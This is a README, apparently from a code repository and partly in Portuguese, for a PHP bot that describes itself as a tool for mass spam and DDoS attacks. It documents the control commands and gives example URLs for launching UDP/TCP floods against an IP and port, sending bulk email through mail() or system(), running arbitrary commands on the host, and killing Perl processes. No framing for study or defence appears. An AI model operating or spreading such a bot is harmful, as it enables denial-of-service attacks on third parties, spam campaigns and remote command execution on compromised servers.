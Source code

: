 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
     command = ddos.
     flag = Attack method: udp, tcp.
     data = IP:PORT.
     
     phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
     
 - Spam:
     command = spam, phpspam (spam via mail() function).
     flag = 1 é padrão para spam normal. 
            Para phpspam, 1 = Usa função system() para rodar enviador, 
            2 = Utiliza todas as funções (Envia repetido).
     data = null (default).
     
      POST data:
        maillist=...&subject=...&from=...&message=...
       
        phpBot.php?hash=admin&command=spam&flag=1&data=null
     
 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null


